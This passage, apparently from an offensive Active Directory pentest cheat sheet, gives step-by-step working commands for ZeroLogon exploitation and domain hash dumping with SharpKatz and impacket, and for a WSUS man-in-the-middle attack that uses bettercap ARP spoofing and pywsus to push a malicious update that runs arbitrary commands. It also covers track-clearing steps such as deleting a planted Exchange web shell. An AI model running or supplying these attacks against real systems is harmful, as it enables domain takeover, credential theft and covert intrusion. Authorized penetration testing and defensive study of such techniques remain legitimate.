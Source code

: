 	- 2\. Perfom a DCSync attack.
- 5\. Clear tracks:
	- 1\. Delete added DCSync privileges \(if you get an "Access is denied" message most likely the modification was still successful\) \(PowerView\): `Remove-DomainObjectAcl -PrincipalIdentity <name exchange server> -Rights DCSync`
	- 2\. Delete the Exchange exploit shell: `del C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\exchmshell.aspx`

#### _ZeroLogon DC exploit:_
This vulnerability allows an unauthenticated attacker with network access to a domain controller, to establish a vulnerable Netlogon session and eventually gain domain administrator privileges\. 
- 1\. Verify if target is vulnerable: 
    - \([SharpKatz](https://github.com/b4rtik/SharpKatz)): `SharpKatz --Command zerologon --Mode check --Target <FQDN target DC> --MachineAccount <DC name>$`
    - \([zerologon_tester.py](https://github.com/SecuraBV/CVE-2020-1472)\) `python3 zerologon_tester.py <DC name> <DC IP>`
- 2\. Set the DC machine account password to zero and dump hashes:
    - \([SharpKatz](https://github.com/b4rtik/SharpKatz)\): `SharpKatz --Command zerologon --Mode exploit --Target <FQDN target DC> --MachineAccount <DC name>$ --Domain <FQDN> --User <username to dump hash> --DomainController <FQDN target DC>`
    - Python method:
        - 1\. \([zerologon](https://github.com/risksense/zerologon)\): `python3 set_empty_pw.py <DC NETBIOS name (e.g. DC01)> <target DC ip>`
	    - 2\. If successful, dump all hashes with the zerod DC machine account \([impacket](https://github.com/SecureAuthCorp/impacket)\): `secretsdump.py -just-dc <domain>/<DC NETBIOS name>\$@<target DC ip>`
	    - 3\. Copy the dumped DA hash and again dump all hashes in the context of the DA to obtain the DC machine hex password to fix the DC \(impacket\): `secretsdump.py <DOMAIN>/Administrator@<DC IP> -hashes <NTLM>`
        - 4\. From the latest secretsdump output, copy the "plain\_password\_hex" string of the DC machine account and restore it \([zerologon](https://github.com/risksense/zerologon)\): `python3 reinstall_original_pw.py <DC name> <target DC ip> <hex password>`

#### _Windows Software Update Service \(WSUS\) exploitation:_
This technique targets a WSUS deployment that doesn't use SSL encryption to inject a malicious update via a MITM attack\. As soon a system checks for available updates, a malicious update is served and executed\. This can result in RCE\. 
- 1\. Request the WSUS HTTP URL and verify if the updates are pushed without SSL \(if nothing is returned, WSUS is not used for updates\): `reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer`
- 2\. Create file with instructions for bettercap and name it WSUS\.cap: 
    ```
    set arp.spoof.targets <target ip or range of system to serve malicious update to>
    arp.spoof on
    set any.proxy.src_port <WSUS port (e.g. 8530)>
    set any.proxy.dst_port 8530
    set any.proxy.dst_address <own ip>
    any.proxy on
    ```
- 3\. Serve a malicious update and execute a custom command \(the binary that is served can be any binary as long its signed by MS like PsExec\) \([pywsus](https://github.com/GoSecure/pywsus)\): `python3 pywsus.py -H <own ip> -p 8530 -e PsExec64.exe -c '/acceptuela /s cmd.exe /c "<command>"'`
- 4\. Start the MITM attack \([bettercap](https://github.com/bettercap/bettercap/releases/download/v2.31.1/bettercap_linux_amd64_v2.31.1.zip)\): ./bettercap --iface <interface> --caplet WSUS.cap`
- 5\. Keep this running and as soon a system checks for new updates, the malicious update is served and the command is executed\.
